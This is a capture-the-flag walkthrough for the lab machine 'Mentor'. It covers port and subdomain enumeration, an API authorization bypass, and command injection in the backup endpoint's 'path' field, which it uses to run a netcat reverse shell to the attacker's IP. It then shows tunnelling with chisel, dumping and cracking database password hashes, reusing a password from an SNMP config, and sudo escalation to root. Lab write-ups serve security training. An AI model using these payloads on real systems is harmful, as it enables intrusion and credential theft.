 <h2>Target: 10.10.11.193	Mentor </h2>

<b>Initial Access:</b><br>
nmap -Pn --min-rate=5000 10.10.11.193 -p-|grep open|awk -F / '{print $1}'|tr '\n' ',' <br>
The output shows open ports: 22,80

Enumerate these open ports further with nmap: <br>
nmap -Pn --min-rate=5000 10.10.11.193 -p 22,80 -sC -sV -oN nmap.mentor
 
![image](https://user-images.githubusercontent.com/93153300/213529199-8cea3451-e8a2-48e2-a99d-b16562fd8b75.png)
nmap shows port 80 redirects to mentorquotes.htb.  Add this into /etc/hosts:  <br>
10.10.11.193   mentorquotes.htb

Visiting port 80 shows nothing of interest.  Directory brute force finds nothing of interest.   Run subdomain brute force: <br>
wfuzz -c -w /usr/share/seclists/Discovery/DNS/bitquark-subdomains-top100000.txt -H "Host: FUZZ.mentorquotes.htb" -u "http://mentorquotes.htb/" --hl 9

wfuzz finds a subdomain of ‘api’.  Add this into /etc/hosts: <br>
10.10.11.193 mentorquotes.htb api.mentorquotes.htb

Visiting http://api.mentorquotes.htb shows nothing of interest.  Run directory brute force: <br>
dirsearch -r -u http://api.mentorquotes.htb/ -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -o dsearch.txt

Dirsearch found: <br>
http://api.mentorquotes.htb/users/ <br>
http://api.mentorquotes.htb/admin/ <br>
http://api.mentorquotes.htb/quotes/ <br>
http://api.mentorquotes.htb/redoc <br>
http://api.mentorquotes.htb/docs

Further directory brute force on the api with feroxbuster: <br>
feroxbuster -r -u http://api.mentorquotes.htb/admin -w  /usr/share/seclists/Discovery/Web-Content/common.txt -o fbuster.txt --force-recursion --dont-filter  --no-state -s 200 204 301 302 307 308 401 403 405 500 -X POST

Feroxbuster found: http://api.mentorquotes.htb/admin/backup

feroxbuster -r -u http://api.mentorquotes.htb/users -w  /usr/share/seclists/Discovery/Web-Content/common.txt -o ~/Downloads/fbuster.api.bw --force-recursion --dont-filter  --no-state -s 200 204 301 302 307 308 401 403 405 500 -X GET

Feroxbuster found: http://api.mentorquotes.htb/users/add

To summarize the directory brute force findings: <br>
http://api.mentorquotes.htb/users/ --> http://api.mentorquotes.htb/users/add <br>
http://api.mentorquotes.htb/admin/ --> http://api.mentorquotes.htb/admin/backup <br>
http://api.mentorquotes.htb/quotes/ <br>
http://api.mentorquotes.htb/redoc <br>
http://api.mentorquotes.htb/docs

Visitng http://api.mentorquotes.htb/docs shows:
 
![image](https://user-images.githubusercontent.com/93153300/213529262-2be655ad-af38-4194-ac36-9141b552cf29.png)
  
Use this site to enumerate and exploit the target further.  <br>

Step 1: Create a user with ‘/auth/signup’. <br>
Step 2: Login with ‘/auth/user’.  The output returns an Authorization string. <br>
Step 3: Use the ‘/users’ on the page to see all the users.  It asks for the Authorization string.  Enter the Authorization string we got after logging in to ‘/auth/user’. The page responds that only admin is allowed access.<br>
Step 4: The top of the webpage shows user ‘james’.  User ‘james’ might be the admin.  Go back to ‘/auth/signup’ and create a user ‘james’ but put a new email for ‘james’ (anything@mentorquotes.htb). <br>
Step 5: login with ‘/auth/user’ with the credentials we created for ‘james’.  The response gives an Authorization string.  <br>
Step 6: Use ‘/users’ and enter the Authorization string we got for the user ‘james’.  It works. <br>
Step 7: Now that we know james is the admin user, go to ‘/admin/backup’, capture the request in burp suite, change the method to ‘POST’, add the header ‘Authorization: string’ for user ‘james’, add in an empty json object ‘{}’ at the end, add the header ‘Content-type: application/json’.  (Trial and error and working with the responses the site gives back led me to make these changes).  The webpage responds that it needs an attribute of ‘path’.
Step 8: Do step 7 again, but this time add in the ‘path’ attribute: {“path”:”/etc/passwd”} 
 
![image](https://user-images.githubusercontent.com/93153300/213529308-01134946-f7dc-434b-ba9a-a084b2796f6a.png)

Step 9: It works.  Try command injection by repeating step 8, but then adding to the ‘path’ attribute: “path”:”/etc/passwd;ping -c 4 10.10.14.9;”.  
 
![image](https://user-images.githubusercontent.com/93153300/213529335-ebbb1548-8ccf-4a3a-b93a-ed9ac10a8955.png)
  
Before sending the request, open tcpdump to catch the ping: tcpdump -i tun0 icmp <br>
Step 10: We get a ping back on our tcpdump.  This shows we have command injection.  Use this to get a reverse shell.  Replace the ‘path’ attribute with: “path”:"/etc/passwd;rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.14.9 443 >/tmp/f;" .  Before sending the request, open a netcat listener to catch and get a shell: nc -lvnp 443 <br>
Step 11: We get shell as root in a docker.  
 
![image](https://user-images.githubusercontent.com/93153300/213529366-f80564a7-7c4e-44fb-bb02-b718e2b0c341.png)

_________________________________________________________________
<b>Docker breakout:</b><br>
File /app/app/db.py shows postgresql credentials of ‘postgres:postgres’.  
 
![image](https://user-images.githubusercontent.com/93153300/213529390-d04efadc-db7c-4a7a-b8ee-b4e0037cf60a.png)

The postgresql is not publicly accessible.  In order to connect to the postgresql database we will use chisel.  

Step 1: Upload chisel to the target docker shell.   <br>
Step 2: On our local pc run : ./chisel server -p 9999 --reverse <br>
Step 3: On the target docker shell run chisel: ./chisel client 10.10.14.9:9999 R:5432:172.22.0.1:5432 <br>
Step 4: On our local pc run: psql -h 10.10.14.9 -U postgres -p 5432 <br>

Look around the database for interesting findings: <br>
Step 1: List the databases: \list <br>
 
![image](https://user-images.githubusercontent.com/93153300/213529430-4bc31dae-1e46-4ea9-9b5b-137eed9fdf13.png)

Step 2: The response shows a database by the name of ‘mentorquotes_db’.  Connect to that database using command: \c mentorquotes_db <br>
Step 3: Show the tables for the mentorquotes_db with the command: \d <br>
 
![image](https://user-images.githubusercontent.com/93153300/213529459-3b161ae6-0856-422a-bc63-3c066690e5c5.png)

Step 4: One of the tables is called ‘users’.  Dump the ‘users’ table with command: select * from users; <br>
Step 5: Table ‘users’ contains hashes for user ‘james’ and user ‘svc’.  
 
![image](https://user-images.githubusercontent.com/93153300/213529496-b5a6a5c3-a043-45a7-8f3d-817ebf3e38c7.png)

Copy the hashes into a file (each hash on a seperate line), and find the hash type with command: nth -f hash <br>

The ‘nth’ command returned that it most likely is md5.  Crack the hashes with john: john hash --wordlist=/usr/share/wordlists/rockyou.txt –format=raw-md5 <br>      
John cracked the ‘svc’ user hash: 123meunomeeivani

ssh into the target as user svc: ssh svc@mentorquotes.htb → enter the password when prompted

We have shell as user ‘svc’.  We can get the flag in /home/svc/user.txt.
_______________________________________________________
<b>Lateral Movement:</b><br>
The file /etc/passwd shows that there is a user ‘james’.  

Upload linpeas.sh to the target and run it.  Linpeas found:
 
![image](https://user-images.githubusercontent.com/93153300/213529537-2d01923f-74cc-43b1-ac16-1d9279ddb23b.png)

On our local pc enumerate snmp with nmap.  The standard tcp nmap scan didn’t find an open snmp port, so we will try a udp nmap scan: sudo nmap -Pn --min-rate=5000 mentorquotes.htb -sU 

Nmap returned showing port 161 udp is open. <br>
Running the command ‘snmp-check 10.10.11.193’ doesn’t show anything of interest. <br>
Read the file /etc/snmp/snmpd.conf.  The file shows a password of ‘SuperSecurePassword123__’:
 
![image](https://user-images.githubusercontent.com/93153300/213529566-1b0e540f-8864-4088-ac3a-6e817a666591.png)

Check if this password works for user ‘james’: su james → enter the password when prompted.  It works, we have shell as user ‘james’.  
____________________________________
<b> Privilege Escalation:</b><br>
Run sudo -l:
 
![image](https://user-images.githubusercontent.com/93153300/213529618-de807020-283f-40b6-8a23-91c4abf386dc.png)

The command ‘sudo -l’ shows we can run a /bin/sh shell as root.  We will use this to escalate to root.  Run the command: sudo /bin/sh

We have shell as root.  We can get the flag in /root/root.txt.
